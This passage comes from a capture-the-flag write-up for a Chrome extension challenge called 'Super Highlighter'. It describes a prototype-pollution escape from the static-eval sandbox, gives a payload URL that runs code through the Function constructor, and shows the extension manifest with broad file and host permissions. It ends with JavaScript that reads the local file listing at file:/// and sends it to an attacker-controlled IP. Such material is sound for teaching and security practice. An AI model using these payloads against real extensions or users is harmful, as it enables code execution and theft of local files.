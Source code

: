 which means we can access Function `constructor` or   `__proto__` , it is like some kind of prototype pollution! 😜 Comparing the source with the patch , we can confirm that the problem is using an early one , which means the prototype pollution did exist!

This will give us a hint that can we escape from the sandbox .  After the competition , I finally got the answer is about prototype pollution in static-eval  [blog post](https://blog.p6.is/bypassing-a-js-sandbox/)  written by p0six , the publisher of this problem.

Try some payload ( Install on your testing machine first ):

```
/read?id=20#(function(x){return''[!x?'__proto__':'constructor'][x]})('constructor')('alert(1)')()
```

And it did return the alert!! Use `alert(location)` to see what will return! 

```
chrome-extension://jcplbbkockmfmdhgflkjanlojoadalcj/_generated_background_page.html
```

Try some effect search the exploit with `chrome-extension://`

And the manifest.json show some permissions informations.

```json
{
  "name": "Super Highlighter",
  "version": "1.0.0",
  "manifest_version": 2,
  "description": "Highlight your words using keyword or index!",
  "homepage_url": "https://ctf.defenit.kr",
  "permissions": [
    "http://*/*",
    "https://*/*",
    "file://*/*"
  ],
  "background": {
    "scripts": ["js/background.js"],
    "persistent": true
  },
  "content_security_policy": "script-src 'self' https://accounts.google.com 'unsafe-eval'; object-src 'self'"
}
```

We can find that host permissions over all `http://*/*`, `https://*/*`, and `file://*/*`. 

That means host permissions allows chrome extensions to make a request without cross origin restrictions.

So Javascript can be evaluate in Chrome extension's side , we can read the file with `file://`

But we don't know where the flag is , Chrome extensions support file list with `file:///`

First write some payload 

```js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'file:///');
xhr.onload = function() {
  var fs = xhr.responseText.match(/addRow\("(.+?)"/g).map(x => x.slice(8, -1));
  (new Image).src = 'https://(IP)?' + encodeURIComponent(fs);
};
xhr.send();
```
